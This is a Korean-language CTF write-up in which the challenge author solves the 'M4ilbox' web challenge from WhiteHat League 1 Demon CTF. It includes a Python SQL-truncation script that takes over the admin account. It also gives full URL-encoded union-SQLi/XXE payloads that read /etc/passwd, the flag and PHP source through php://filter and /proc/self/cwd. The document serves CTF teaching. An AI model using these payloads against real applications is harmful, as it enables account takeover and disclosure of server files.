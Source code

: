 # WhiteHat League 1 - Demon CTF [![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)](https://github.com/sindresorhus/awesome)
M4ilbox Write-Up - 출제자 풀이
-----------------------------------

## Introduce
* Author : 윤석찬 ([ch4n3](http://chaneyoon.tistory.com))
* Field  : Web Hacking
* E-Mail : chaneyoon@gmail.com
* Date   : 2017-09-12

## Intention
* 전체적인 컨셉으로는 실제 **리얼월드**에서 검색할 때 일어날 수 있는 취약점을 기본으로 함.
* 공격 벡터가 많은 웹 어플리케이션에서 취약한 벡터를 찾는 것이 관건이었음.
* 플래그 형식은 **Demon{...}**

## Solve
* [challenge url](http://108.61.161.168:8080/)

### 1. Functions Analyse
> 먼저 공격 벡터가 있을 만한 기능부터 봐 보자
-   로그인 / 회원가입 기능 (아마도 SQL Injection)
-	메일 보내기 기능
-	중요 메일 확인, 내가 쓴 메일, 내가 받은 메일 확인 기능
-	Members라고 쓰여져 있는 관리자만 사용할 수 있는 기능


저 공격벡터 중에 관리자만 사용할 수 있는 기능이 수상한데,
어드민 권한을 획득하려면 뭔갈 해야하는 듯..?

공격 벡터 중에 어드민의 권한을 가져올 수 있는 방법이 있을까?

### 2. admin 권한 탈취
- 일단 XSS로 admin 권한을 획득할 수 있겠고..
- 만약에 회원가입에서 SQL Injection이 된다면 admin이라는 값을 자신의 임의대로 넣을 수도 있음ㅋㅋ
- 근데 아무리 SQLMAP같은 퍼저를 돌려도 회원가입에서 취약점이 안나올 것이다. 
왜냐면 addslashes()를 사용자의 모든 input에 대해 때려 박았거등요~~~~
- 그럼 역시 XSS로 해야되나.. 생각할 수도 있겠는데
정작 admin의 권한을 얻는 취약점은 회원가입 부분이다.
- 취약점은 바로 SQL Truncation Attack~~~~


다음 코드로 admin의 권한을 획득할 수 있다ㅋㅋㅋㅋ

```{.python}
#!/usr/bin/python
# coding: utf-8

import requests

url = 'http://108.61.161.168:8080/join/ok.php'

data = {
	'firstName'	: 'SoekChan',
	'lastName'	: 'Yoon',
	'age'		: 17,
	'id'		: 'admin' + ' ' * 100 + 'a',
	'password'	: 'tmxkdnjwm123',
	'password_confirmation': 'tmxkdnjwm123'
}

r = requests.post(url, data=data)
print(r.text)
```

### 3. admin 권한 획득 후 공격 진행
- admin 권한을 획득하면 members 탭에서 member들을 검색할 수 있는 권한을 얻는다.
- members에서 id를 입력하고 검색하면 해당 유저에 대한 정보들이 뜬다.
- 근데 정보를 얻는 방식이...?

    http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=admin%26encoding=UTF-8 

- url 파라미터로 넘긴 값에 뭐가 있을지 한 번 들어가보자

    http://108.61.161.168:8080/members/search.php?search=admin&encoding=UTF-8   
- 위의 링크로 접속해보면 **xml 형식**으로 정보를 전달하는 것을 알 수 있다. (~~코럼 행님, XXE각 나오는 부분 ㅇㅈ? ㅇㅇㅈ~~)

### 4. Exploit Using XXE
- search.php 에서 검색을 할 때 **SQL Injection 취약점**이 발생한다는 것을 알 수 있다. 
- 엌ㅋㅋㅋㅋ 그럼 **union based SQLi**를 진행하면 xml 파일 조작 가능하고 고럼 쉽게 뚫릴 것 같은뎈ㅋㅋㅋ
- 근데 union sql injection으로 조작할 수 있는 범위는 한계가 있다. 
- 근데 encoding 파라미터는 뭐지..?
- encoding 파라미터를 변환시켜보면 xml파일의 **Prolog가 변한다**. (~~개꿀~~)
~~encoding값을 변화시켜 xml을 조작하는 것은 전혀 게싱이 아니다. 국내 포털사이트 중 이러한 방법을 통해서 exploit 할 수 있는 곳이 있다ㄷㄷ~~
- 그래서 두 취약점을 합쳐서 XXE를 진행할 수 있다. 
http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-&encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 이렇게 XXE를 통해서 /etc/passwd를 읽어올 수 있다. 그럼 다시 beautify.php에 url 파라미터로 적절한 url encoding을 사용해서 접속해보자.
http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22file:///etc/passwd%22%20%3E]%3E%3C!--
- 그리고 플래그는 최상위 경로에 있다고 했으니까 file:///flag 를 읽어오면 된다.

### 5. Other Exploit
- XXE를 통해서 읽기 권한이 있는 모든 파일에 접근할 수 있게 되었다. 
- 그럼 해당 어플리케이션의 소스는 볼 수 없을까?
- 당연히 있다. 하지만, 해당 웹 어플리케이션의 절대 경로를 알아내야 한다. ~~슈퍼게싱~~
- 는 구라고 절대경로를 알지 않고서도 소스를 볼 수 있다.
- 바로 /proc/self/cwd 를 이용하면 된다ㅋㅋㅋㅋㅋ
- file:///proc/self/cwd/index.php를 XXE로 읽어오려고 하면 어떤 이유에선지 되지 않는다.
- 하지만, php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php로 읽어올 수 있는 것을 확인했다.
	http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/index.php%22%20%3E]%3E%3C!--
- 그리고 웹 디렉토리 최상위 경로에 있는 index.php도 볼 수 있다. 
	http://108.61.161.168:8080/members/beautify.php?url=http://108.61.161.168:8080/members/search.php?search=%27union%09select%091,%22--%3E%3Cuser%3E%3Cid%3E%2526xxe;%22,3,4,5,6--%09-%26encoding=UTF-8%22?%3E%3C!DOCTYPE%20foo%20[%20%3C!ELEMENT%20foo%20ANY%20%3E%20%3C!ENTITY%20xxe%20SYSTEM%20%22php://filter/convert.base64-encode/resource=/proc/self/cwd/../index.php%22%20%3E]%3E%3C!--
이렇게
- 그리고 자신이 알고 있는 다른 취약점을 찾아서 exploit 해보면 된다. 
~~근데 나는 모르겠다~~

# 끝

